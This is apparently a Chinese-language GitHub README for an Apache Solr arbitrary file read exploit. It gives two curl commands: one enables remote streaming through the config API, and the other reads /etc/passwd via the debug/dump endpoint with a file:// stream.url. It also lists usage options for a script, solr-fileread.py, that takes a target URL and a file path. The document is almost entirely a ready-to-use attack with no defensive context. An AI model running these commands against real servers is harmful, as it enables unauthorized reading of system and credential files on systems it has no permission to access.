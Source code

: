 # apache Solr 任意文件读取漏洞

## 漏洞POC

```bash
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://host:port/solr/{corename}/config -H 'Content-type:application/json'

curl "http://host:port/solr/{corename}/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"
```

## 脚本使用

python3 solr-fileread.py --help

Usage: solr-fileread.py [OPTIONS]

Options:
  --target TEXT    Target URL; Example:http://ip:port。
  --filename TEXT  Target File; Example:/etc/passwd。
  --help           Show this message and exit.

